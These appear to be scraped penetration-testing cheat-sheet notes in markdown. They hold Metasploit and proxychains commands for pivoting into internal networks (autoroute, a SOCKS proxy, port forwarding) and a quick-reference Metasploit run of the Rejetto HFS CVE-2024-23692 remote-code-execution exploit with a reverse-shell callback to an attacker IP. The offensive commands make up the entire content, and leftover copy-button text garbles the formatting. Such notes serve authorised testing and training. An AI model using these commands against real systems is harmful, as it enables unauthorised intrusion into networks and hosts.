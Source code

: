 
**`pentesting-notes/02-Network/04-pivoting.md`**
```md
# Pivoting & Tunnelling
meterpreter > run autoroute -s <INTERNAL/CIDR>
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
run

php-template
Copy
Edit
```bash
proxychains -q nmap -Pn -sT -p80 <INTERNAL_HOST>
curl -v http://127.0.0.1:<LOCAL_PORT>/ -H 'Host: <INTERNAL_FQDN>'
php-template
Copy
Edit
meterpreter > portfwd add -l <LOCAL_PORT> -p 80 -r <INTERNAL_HOST>
go
Copy
Edit

**`pentesting-notes/03-Web/01-rejetto_hfs_cve-2024-23692.md`**
```md
# Rejetto HFS — CVE-2024-23692 (quick ref)
use windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS <TARGET>
set LHOST <KALI_IP>
set LPORT <LPORT>
run
